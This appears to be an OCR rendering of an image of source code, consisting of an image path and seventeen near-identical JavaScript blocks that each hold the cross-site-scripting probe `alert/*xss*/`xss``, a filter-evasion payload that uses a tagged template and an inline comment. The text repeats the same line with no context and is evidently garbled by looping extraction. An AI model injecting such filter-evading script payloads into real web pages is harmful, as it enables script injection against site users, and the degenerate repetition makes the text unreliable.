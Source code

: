 ```javascript
alert /*xss*/ `xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```

```javascript
alert/*xss*/`xss`
```
